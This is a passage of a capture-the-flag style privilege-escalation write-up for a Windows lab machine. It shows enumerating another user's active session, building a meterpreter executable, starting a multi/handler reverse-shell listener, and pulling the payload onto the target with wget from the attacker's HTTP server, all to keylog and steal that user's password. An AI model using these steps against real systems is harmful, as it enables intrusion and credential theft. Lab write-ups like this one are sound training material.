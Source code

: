 ### PRIVESC 2: Discovering an active session, using meterpreter to get a keylogger running and stealing the password [intended way]

by doing: 

> get-process

we can see some  process in the system that has "1" which indicates interactive log-in, like powershel, iex-explore etc...:

![[Pasted image 20240607195212.png]]

and by doing "qwinsta" or "query user" we can see that we are "0"
 it means we have no active remote desktop session open. which drbrown  has "1"  he has a active session
![[Pasted image 20240607200156.png]]

So the easiest way to look at what drbrown is doing is  through metasploit because we have to inject ourself into another process and process injection in powershell is just hard.

Which in this case, the payload is going to be this (do it into another terminal): 


![[Pasted image 20240607201629.png]]
"-f EXE" stands for file with the format .exe and "-o msf.exe" is output file as msf.exe

to ensure it worked see for the file msf.exe:

![[Pasted image 20240607202242.png]]

Activate  a reverse shell for when the user  will open it:

> msfconsole

> use exploit/multi/handler


![[Pasted image 20240607202036.png]]

upload the file:

-> mv msf.exe www/

-> cd www

-> python3 -m http.server

Now we return to the user shell and extract the file:

-> cd programdata

-> wget http://$ourIP:8000/msf.exe -o msf.exe

![[Pasted image 20240607203029.png]]

**Tip:** look closely for the server that got a response like this, so you know you're listening the server with the file msf.exe or else, you will receive a "file not found" error.
![[Pasted image 20240607203849.png]]
